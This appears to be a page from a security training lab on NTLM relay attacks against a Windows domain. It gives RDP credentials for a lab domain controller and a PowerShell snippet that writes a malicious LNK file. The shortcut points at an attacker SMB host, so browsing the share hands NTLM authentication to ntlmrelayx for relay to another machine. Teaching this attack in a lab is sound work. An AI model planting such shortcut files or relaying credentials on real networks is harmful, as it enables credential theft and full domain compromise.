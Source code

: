 You have activated a python virtual environment, installed the impacket toolkit and launched ntlmrelayx.py.  Move to the next section of the lab where operation from the itadmin’s RDP session on the Domain Controller will be used to execute the malicious LNK from the \\dc01\labs\ fileshare and ultimately cause the compromise of the entire domain.


![][NextStep]

![][Div1]

![Step Two][StepTwo]
## Generating a Malicious LINK File
In the prior section of this lab, the Impacket toolkit was configured to exchange authentication challenges with SMB requests and relay them to WS01. 
To start this section of the lab, connect to the Domain Controller via remote desktop protocol.  If you already have a session open, continue to use that session.  Be sure to not close the PuTTY sessions initiated in this lab in Steps One and Two.
Connection information is provided as reference below. 

```plaintext
RDP: DC01.labs.local
Username: labs\itadmin
Password: APTClass!
```
Once there, open PowerShell and use the following code to write a malicious LNK file to the Labs share. 

![Powershell Input][PowerShellInput]

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("c:\Labs\Malicious.lnk")
$lnk.TargetPath = "\\10.10.98.20\@threat.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing the \\dc01\labs file share triggers SMB auth."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

| ![](images/L1150-4.png) |
|----------|


  [L0200]: ../L0200/
  [L0250]: ../L0250/
  [L0310]: ../L0310/
  [L0311]: ../L0311/
  [L0320]: ../L0320/
  [L0330]: ../L0330/
  [L0340]: ../L0340/
  [L0350]: ../L0350/
  [L1120]: ../L1120/
  [L1130]: ../L1130/
  [L1140]: ../L1140/